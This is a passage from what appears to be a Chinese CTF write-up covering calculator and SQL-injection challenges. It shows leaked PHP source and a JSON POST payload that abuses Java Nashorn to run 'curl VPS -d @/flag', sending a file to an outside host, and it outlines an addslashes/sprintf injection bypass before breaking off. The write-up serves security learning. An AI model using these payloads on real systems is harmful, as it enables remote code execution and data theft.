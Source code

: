 ![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084518-d91c6e5c-8f06-1.png)

然后看了一下源码

/proc/self/cwd/calc.php

```
<?php
$data = file_get_contents('php://input');
$data = json_decode($data,true);
$encode_data = base64_encode($data['expr']);
system('python ./final.py '.$encode_data);
?>
```

/proc/self/cwd/final.py

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084526-ddc6d8e8-8f06-1.png)

### fast_calc_1

初步判断，后端代码可能用的是nodejs或者JavaScript。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084532-e17e890e-8f06-1.png)

尝试用Object.getOwnPropertyNames(this).join('::::::')读取一下this对象属性，发现有java

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084539-e5671e96-8f06-1.png)

再次尝试java.language.String，可以确认后端用的是Java了

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084545-e951bb7e-8f06-1.png)

Java中有一个新特性可以把JavaScript转成Java代码，所以这里可以执行JavaScript，即Nashorn  
接下来尝试使用java代码读取flag

POST /calc.php HTTP/1.1
Host: xxx
Content-Type: application/json

{"target":"/","expr":"java.lang.Runtime.getRuntime().exec('curl VPS -d @/flag')"}

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084559-f1ac9708-8f06-1.png)

### easysqli

两个点：

+ username和password经过addslashes函数处理。
+ 当username为admin时，会显示后台执行的sql语句。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190615084606-f580ceda-8f06-1.png)

利用条件比较苛刻，所以正常的SQL注入姿势是绕不过的，只能想到配合sprintf字符串格式化漏洞进行绕过，具体参考：[https://paper.seebug.org/386/](https://paper.seebug.org/386/) 。猜测后台代码应该类似这样：
